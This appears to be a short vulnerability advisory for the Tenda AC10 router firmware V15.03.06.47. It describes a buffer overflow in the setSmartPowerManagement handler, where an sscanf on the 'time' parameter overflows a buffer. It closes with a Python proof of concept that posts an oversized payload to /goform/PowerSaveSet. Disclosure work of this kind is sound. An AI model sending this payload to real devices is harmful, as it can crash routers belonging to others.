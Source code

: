 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/setSmartPowerManagement

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](2.png)

get value from time ,then call sscanf, cause buff overflow




## POC
```
url = "http://192.168.1.13/goform/PowerSaveSet"
payload = 'A'*300 + ':'+'\n'

r = requests.post(url, data={'time': payload})
``` 
